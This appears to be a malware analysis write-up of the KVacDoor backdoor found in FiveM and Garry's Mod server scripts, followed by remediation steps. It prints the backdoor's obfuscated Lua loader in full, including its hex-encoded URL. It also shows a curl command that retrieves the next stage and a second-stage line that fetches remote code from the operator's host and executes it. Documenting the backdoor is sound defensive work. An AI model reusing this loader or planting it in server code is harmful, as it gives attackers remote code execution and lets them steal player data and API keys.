 ## 1. Introduction
KVacDoor is a really used fivem and garry's mod server manager, boasting features such as 

> **Lua Script**
The scripting system allows you or the KVacDoor staff to quickly run lua code on your servers.

> **Smart Lua**
Inject your lua codes discreetly in one click in one of your addons with the Smart Lua tool.

Turns out that it's also a backdoor, which uses this code, injected into the server-side of a fivem-script to plant itself inside the server.
It is strongly recommended you read cipher's panel breakdown as the code and method used are almost identical - https://github.com/ericstolly/cipher/blob/main/chapters/chapter-1-payload.md
```
local Enchanced_Tabs = {
    Ench, Support, Host, Pairs,
    Realease, Callbacks, Source,
    Hosting, Event, PerformHttpRequest,
    assert, server, load, Spawn, materials
}

local random_char = {
    "68", "74", "74", "70", "73", "3a", "2f", "2f", "66", "69", "76", "65", "6d", "2e", "6b", "76",
    "61", "63", "2e", "63", "7a", "2f", "66", "2e", "70", "68", "70", "3f", "6b", "65", "79", "3d",
    "6f", "6a", "6f", "54", "4a", "5a", "57", "65", "50", "52", "6e", "50", "4b", "59", "55", "70", "41", "36", "7a", "34",
}

function str_utf8()
    _empt = ""
    for id,it in pairs(random_char) do
        _empt = _empt..it
    end
    return (_empt:gsub("..", function (cc)
        return string.char(tonumber(cc, 16))
        
    end))
end

Enchanced_Tabs[10](str_utf8(), function (e, d)
    local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
    if (d == nil) then return end
    s()
end)
```
## 2. Code analysis and finding the full payload
If that looks familiar, that's because it's the same code (with the link changed of course) used by the cipher panel backdoor - 
I'd recommend reading it before continuing one, though I will explain briefly how the code works
In-short the `random_char` table is a link, which gets interpreted by `str_utf8()` which runs as an http request on the server, giving access to it.
Running the code without the last codeblock (which if you look at the `Enchanced_Tabs` table is an http request) in any lua compiler (https://onecompiler.com/lua/42d7ex7dx)
and appending `print(str_utf8)` to it, so we can see what the encoded message is, gives us this link - https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4.

If we cURL the link using the `FXServer/PerformHttpRequest` user-agent, we'd get this:
```
PerformHttpRequest("https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b", function(a, b) if b == nil or b == "" then return end assert(load(b))() end, "POST")
```

You can verify on linux using this command:
`curl https://fivem.kvac.cz/f.php?key=ojoTJZWePRnPKYUpA6z4 -A "FXServer/PerformHttpRequest"`

As we can see we get more lua code, if we extract the link <br> `https://fivem.kvac.cz/_/api.php\x3f\x6b\x65\x79\x3d\x33\x52\x6a\x34\x6c\x5a\x65\x79\x76\x57\x4a\x6e\x61\x33\x50\x69\x7a\x71\x4f\x6b`

and translate it to text: <br> `https://fivem.kvac.cz/_/api.php?key=3Rj4lZeyvWJna3PizqOk`

cURL-ing this link grants us the payload code:

[fivem-payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-payload.lua)

beautifying it a bit we get this

[fivem-beautified payload.lua](https://github.com/Martinator9001/kvac-backdoor/blob/main/fivem-beautified-payload.lua)


## 3. Payload explanation
The scripts seem to grab all relevant info like licenses, IPs, identifiers from the players in your server, and also stealing API keys from the server .cfg
It also overrides the `chatMessage` event
It grants the resource the infected script was ran from permissions in the server.cfg - and therefore txAdmin


## 4. Post-infection measures
It is highly recommended to shutdown the server as soon as the backdoor is installed, as by default it doesn't inject itself outside the OS and only in the former 3 locations.
Then reseting any API keys you have put in your server.cfg (like steam, rcon passwords)
Then reinstalling your chat script, deleting the malicious code from your resource and remove the command access granted in the last lines of the server.cfg.
